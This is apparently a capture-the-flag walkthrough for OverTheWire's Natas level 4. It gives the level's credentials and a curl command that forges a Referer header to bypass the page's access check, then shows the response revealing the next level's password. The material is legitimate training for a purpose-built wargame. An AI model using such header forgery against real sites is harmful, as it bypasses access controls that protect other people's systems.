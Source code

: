 # Natas Level 4 → Level 5
(Updated: 13 August 2025)

## Credentials
- **Username:** `natas4`
- **Password:** `QryZXc2e0zahULdHrtHxzyYkj59kUxLQ`

## Connection
Level url: [http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)

## Steps to Solve
1. Step 1 - You can access the code by doing the shortcut `Cmd + Shift + C` (for Mac) or `Ctrl + Shift + C` (for Windows)
2. Step 2 - You can see there is nothing else. The message says we have to access to it from `natas5` website Url, so we have to do it
3. Step 3 - Access your computer command line and paste this command:
```
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/
```
- `-u natas4:<password>`: Add the authorization to the request
- `Referer: <nastas5 Url>`: Add the from url to solve the error.
Result:
```
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
```
4. Step 4 - Take the password to the next level.

## Next Level Password
`0n35PkggAPm2zbEpOU802c0x0Msn1ToK`
